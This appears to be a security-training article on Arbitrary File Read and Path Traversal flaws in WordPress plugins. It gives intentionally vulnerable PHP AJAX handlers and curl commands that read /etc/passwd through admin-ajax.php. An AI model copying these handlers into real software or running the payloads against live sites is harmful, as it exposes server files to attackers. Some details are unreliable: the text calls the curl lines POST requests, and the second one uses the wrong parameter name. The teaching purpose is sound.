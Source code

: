 ```yaml
---
title: Arbitrary File Read
head:
    - tag: title
      content: Learn about Arbitrary File Read
contributors:
    - rafiem
---
```




## Introduction

This article covers cases of possible Arbitrary File Read on WordPress. This includes improper file fetch handling inside of the plugin/theme which can be used to read arbitrary local files inside of the server.

<LinkCard
  title="Learn how to secure your code against Arbitrary File Read"
  href="/academy/wordpress/securing-code/arbitrary-file-read/"
/>

## Useful Functions

Several functions could be useful to identify a possible Arbitrary File Read vulnerability:

- PHP related
    - [`file_get_contents`](https://www.php.net/manual/en/function.file-get-contents.php)
    - [`readfile`](https://www.php.net/manual/en/function.readfile.php)
    - [`fopen`](https://www.php.net/manual/en/function.fopen.php)
    - [`fread`](https://www.php.net/manual/en/function.fread.php)
    - [`fgets`](https://www.php.net/manual/en/function.fgets.php)
    - [`fgetcsv`](https://www.php.net/manual/en/function.fgetcsv.php)
    - [`fgetss`](https://www.php.net/manual/en/function.fgetss.php) *deprecated from PHP 7.3*
    - [`file`](https://www.php.net/manual/en/function.file.php)
    - [`cURL`](https://www.php.net/manual/en/book.curl.php)

- WordPress related
    - [`WP_Filesystem_Direct::get_contents`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents/)
    - [`WP_Filesystem_Direct::get_contents_array`](https://developer.wordpress.org/reference/classes/wp_filesystem_direct/get_contents_array/)

## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file", "ajax_get_file");

public function ajax_get_file(){
    global $wp_filesystem;

    // Make sure that the above variable is properly setup.
    require_once ABSPATH . 'wp-admin/includes/file.php';
    WP_Filesystem();

    $url = $_GET["url"];
    $data = $wp_filesystem->get_contents($url);
    $data = json_encode( $data );
    echo $data;
    die();
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint specifying the needed parameter to trigger the `WP_Filesystem_Direct::get_contents` function.

```bash
curl '<WORDPRESS_BASE_URL/wp-admin/admin-ajax.php?action=get_file&url=/etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```

Below are some of the findings related to Arbitrary File Read:

- [Critical Vulnerabilities Patched in WordPress Automatic Plugin](https://patchstack.com/articles/critical-vulnerabilities-patched-in-wordpress-automatic-plugin/)

## Path Traversal

Path traversal is a vulnerability that allows attackers to access files outside the intended directory by traversing file paths. A path traversal can be utilized to exploit the arbitrary file read in case the file read is limited to a specific directory.


## Example Cases

Below is an example of vulnerable code:

```php
add_action("wp_ajax_get_file_of_a_directory", "get_file_of_a_directory");

public function get_file_of_a_directory(){

    $file = $_GET["file"];
    $file_content = file_get_contents(get_template_directory(). $file);
    echo $file_content;
}
```

To exploit this, any authenticated user just needs to perform a POST request to the `/wp-admin/admin-ajax.php` endpoint. The value of the `$_GET['file']` should be traversed backwards using `/../../` to access the files in other directory.

```bash
curl '<WORDPRESS_BASE_URL/wp-admin/admin-ajax.php?action=get_file_of_a_directory&url=/../../../../../../../etc/passwd' -H 'Cookie: <AUTHENTICATED_USER_COOKIE>'
```
